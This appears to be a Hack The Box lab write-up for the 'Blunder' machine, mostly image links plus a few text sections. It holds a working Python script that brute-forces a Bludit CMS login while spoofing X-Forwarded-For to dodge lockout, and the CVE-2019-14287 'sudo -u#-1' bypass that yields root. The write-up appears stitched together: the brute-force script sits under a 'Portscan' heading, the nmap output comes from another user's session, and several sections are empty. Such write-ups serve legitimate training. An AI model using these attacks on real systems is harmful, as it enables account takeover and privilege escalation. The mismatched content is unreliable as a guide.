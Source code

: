 ```yaml
---
layout: single
title: Blunder - Hack The Box
excerpt: "Blunder was an easy box for beginners that required bruteforcing the login for a Bludit CMS, then exploiting a known CVE through Metasploit to get remote code execution. The priv esc is a neat little CVE with sudo that allows us to execute commands as root even though the root username is supposed to be blocked."
date: 2022-11-17
classes: wide
header:
  teaser: /assets/images/htb-blunder/blunder_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - linux
  - bludit
  - wordlist
  - cewl
  - bruteforce
  - sudo
---
```

![](/assets/images/htb-blunder/blunder_logo.png)

![](/assets/images/htb-blunder/ping_initial.png)

![](/assets/images/htb-blunder/nmap_ports.png)

![](/assets/images/htb-blunder/file_allports.png)

![](/assets/images/htb-blunder/extract_ports.png)

![](/assets/images/htb-blunder/nmap_services.png)

![](/assets/images/htb-blunder/whatweb.png)

![](/assets/images/htb-blunder/searchsploit.png)

![](/assets/images/htb-blunder/webapp.png)

![](/assets/images/htb-blunder/wfuzz_admin.png)

![](/assets/images/htb-blunder/wfuzz_txt.png)

![](/assets/images/htb-blunder/todo_txt.png)

![](/assets/images/htb-blunder/bludit_login.png)

![](/assets/images/htb-blunder/login_admin.png)

![](/assets/images/htb-blunder/cewl_commnad.png)

![](/assets/images/htb-blunder/dictionary.png)

![](/assets/images/htb-blunder/take_token.png)

![](/assets/images/htb-blunder/burpsuite.png)

![](/assets/images/htb-blunder/password_correct.png)

![](/assets/images/htb-blunder/login_correct.png)

![](/assets/images/htb-blunder/searchsploit.png)

![](/assets/images/htb-blunder/evil_png.png)

![](/assets/images/htb-blunder/exploit_evil_png.png)

![](/assets/images/htb-blunder/exploit_png.png)

![](/assets/images/htb-blunder/exploit_png_data.png)

![](/assets/images/htb-blunder/upload_png.png)

![](/assets/images/htb-blunder/command_execu.png)

![](/assets/images/htb-blunder/netcat_listening.png)

![](/assets/images/htb-blunder/reverse_shell_command.png)

![](/assets/images/htb-blunder/netcat_correct.png)

![](/assets/images/htb-blunder/database_user.png)

![](/assets/images/htb-blunder/hash_password.png)

![](/assets/images/htb-blunder/crackstation.png)

![](/assets/images/htb-blunder/hugo_login.png)

![](/assets/images/htb-blunder/user_flag.png)

![](/assets/images/htb-blunder/shaun_bash.png)

![](/assets/images/htb-blunder/sudo_l.png)

![](/assets/images/htb-blunder/sudo_version.png)

![](/assets/images/htb-blunder/cve.png)

![](/assets/images/htb-blunder/exploit.png)

![](/assets/images/htb-blunder/root_flag.png)

Blunder was an easy box for beginners that required bruteforcing the login for a Bludit CMS, then exploiting a known CVE through Metasploit to get remote code execution. The priv esc is a neat little CVE with sudo that allows us to execute commands as root even though the root username is supposed to be blocked.

## Portscan

```python
#!/usr/bin/python3

from pwn import *
import requests, pdb, signal, sys, time, re

def def_handler(sig, frame):
    print("\n\n[!] Saliendo... \n")
    sys.exit(1)

# ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Global variables
main_url = "http://10.10.10.191/admin/login"

def bruteForce():
    s = requests.session()

    f = open("dictionary.txt", "r")

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    counter = 1

    for password in f.readlines():
        #Remove the \n from the potential password
        password = password.strip('\n')

        p1.status("Probrando la contraseña [%d/349] : %s" % (counter,password))

        r = s.get(main_url)

        token = re.findall('name="tokenCSRF" value="(.*?)"',r.text)[0]
        post_data = {
            'tokenCSRF': token,
            'username': 'fergus',
            'password': '%s' % password,
            'save': ''
        }

        headers = {
            'X-Forwarded-For': '%s' % password
        }

        r = s.post(main_url, data=post_data, headers=headers)

        counter += 1

        if "Username or password incorrect" not in r.text:
            p1.success("La contraseña es -> %s" % password)
            break

if __name__ == '__main__':

    bruteForce()
```

```
snowscan@kali:~$ sudo nmap -sC -sV -F 10.10.10.191
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-30 15:29 EDT
Nmap scan report for blunder.htb (10.10.10.191)
Host is up (0.63s latency).
Not shown: 98 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.68 seconds
```
## Website CMS

## Getting a shell

## Access to user hugo

## Privesc

However, because of CVE-2019-14287 in sudo, we can bypass the username check by using `#-1` and we get a root shell.
```
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
root@blunder:/home/hugo# id
id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/home/hugo# cat /root/root.txt
cat /root/root.txt
5d649f5bcb1be5f93702a7a71cd4d77e
```
